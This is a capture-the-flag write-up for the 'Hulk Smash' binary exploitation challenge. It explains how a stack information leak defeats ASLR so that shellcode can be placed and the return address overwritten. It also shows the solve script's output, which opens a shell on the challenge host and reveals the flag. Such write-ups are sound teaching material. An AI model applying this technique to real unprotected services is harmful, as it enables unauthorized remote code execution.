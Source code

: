 # Hulk Smash - Points: 100 - (Solves: 39)

**Category**: Binary Exploitation

**Description**: Our recon team has identified a service running on a
developer's computer that they forgot to lock down! See if you can smash it!
Access the developer computer here: `nc challenge.acictf.com 31813` Grab the
[server](server) binary for inspection and debugging. This might help as well?
[source](server.c)

**Hints**:
- Hulk want smash stack.
- The server with which you're communicating implements a simple binary
  protocol. How does it work?
- What does the server do with the input it receives?
- What does the server take for granted that it shouldn't? Can you control
  anything?
- This challenge doesn't implement many modern protection mechanisims. DEP,
  Stack canaries, and PIE are disabled.

## Solution

We're given a [server binary](server) and the server's [source code](server.c).
Checksec shows that nearly all protections are disabled.

```
$ checksec server
[*] '/home/user/ctf-writeups/2018-cyberstakes/hulk_smash/server'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

With no stack canaries, it's probably a standard buffer overflow challenge.
Since ASLR is enabled by default on nearly all modern operating systems, it's
probably safe to assume that it's on for this challenge.

The binary appears to read in 9 bytes, ensure it starts with `HELLO\x00`, then
read in another 4 bytes into an int. Following this, it will read an arbitrary
length of data into a stack variable leading to a buffer overflow. The four
bytes read earlier will be a length passed to write() our buffer, leading to a
statck based information disclosure - this is our way around ASLR. We can read
the previous stack frame's saved base pointer, and compute the address of our
buffer from there.

Since we can trigger function multiple times, we can first leak stack data to
determine the address of our input buffer. We can then send shellcode, and
overwrite the saved return address with that of our shellcode.

My solution is implemented in a short [script](solve.py).

```
$ ./solve.py
[+] Opening connection to challenge.acictf.com on port 31813: Done
[*] '/home/user/ctf-writeups/2018-cyberstakes/hulk_smash/server'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[*] Previous EBP: 0xff8dbab8
[*] Shellcode   : 0xff8db970
[*] Switching to interactive mode
$ id
uid=1054(hulk-smash_0) gid=1055(hulk-smash_0) groups=1055(hulk-smash_0)
$ ls -l
total 16
-r--r----- 1 hacksports hulk-smash_0   42 Nov 30 12:38 flag.txt
-rwxr-sr-x 1 hacksports hulk-smash_0 5596 Nov 30 12:38 server
-rwxr-sr-x 1 hacksports hulk-smash_0  115 Nov 30 12:38 xinet_startup.sh
$ cat flag.txt
ACI{hulk_smash_buffers__7E35627bE6acbb5F}
```
